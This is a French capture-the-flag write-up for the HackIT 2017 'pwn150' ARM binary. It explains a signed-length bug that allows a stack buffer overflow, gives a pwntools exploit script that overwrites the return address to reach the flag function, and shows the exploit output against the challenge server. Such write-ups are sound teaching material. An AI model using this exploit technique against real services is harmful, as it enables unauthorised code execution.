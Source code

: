 ```yaml
---
layout: post
title: "HackIT CTF"
date: 27 Août 2017
comments: true
categories: wu
---
```

Le binaire en statique presente les caractéristiques suivantes:
```
Filename                 pwn150
File format              ELF32
Architecture             arm
Endianess                little endian
Entry point              0x10370
Loadables segments       2
Sections                 31

NX bit                   enabled
SSP                      disabled
Relro                    unknown
RPATH                    unknown
RUNPATH                  unknown
PIE                      disabled
```
Une faille réside dans le fait que si on entre un nombre > 32768, il apparait comme négatif dans le test
lors de la demande de la longueur du message. Il est alors possible de faire un buffer overflow sur la pile.
Il suffit de basculer sur le fonction affichant le flag (0x104d8) pour avoir ce flag.

```
PAD="ABCDEFGHIJKLMNOPQRSTUVWXYZ@@AABBCCDDEEFFGGHHIIJJKKLLMMNNOOPPQQRRSSTTUUVVWWXXYYZZ@@@AAABBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLLMMMNNNOOOPPPQQQRRRSSSTTTUUUVVVWWWXXXYYYZZZ@@@@AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ@@@@@AAAAABBBBBCCCCCDDDDDEEEEEFFFFFGGGGGHHHHHIIIIIJJJJJKKKKKLLLLLMMMMMNNNNNOOOOOPPPPPQQQQQRRRRRSSSSSTTTTTUUUUUVVVVVWWWWWXXXXXYYYYYZZZZZ@@@@@@AAAAAABBBBBBCCCCCCDDDDDDEEEEEEFFFFFFGGGGGGHHHHHHIIIIIIJJJJJJKKKKKKLLLLLLMMMMMMNNNNNNOOOOOOPPPPPPQQQQQQRRRRRRSS"

# mettre la longeur à 55000 donne un nombre négatif, le BOF est possible

p=remote(host,port)
print p.recvuntil("?")
p.sendline("A")
print p.recvuntil("N:")
p.sendline("Y")
print p.recvuntil("ssage:")
p.sendline("55000")
p.sendline(PAD+p32(0)+p32(0)+p32(0)+p32(0x104d8))
print p.recvall(1)
p.close()
```
On obtient le déroulement suivant:

```
[+] Opening connection to 165.227.98.55 on port 2222: Done
Welcome to our secured moon phase tracking server.
What is your name?

Hello, A!
Current moon phase: 1
Sorry, current moon phase is bad for showing flags.
A, do you want to leave us a feedback? Enter Y or N:
Please, enter length of your message:

[+] Receiving all data: Done (90B)
[*] Closed connection to 165.227.98.55 port 2222

Your opinion is very important to us.
Bye-bye!
h4ck1t{Astronomy_is_fun}
Have a nice day!

```
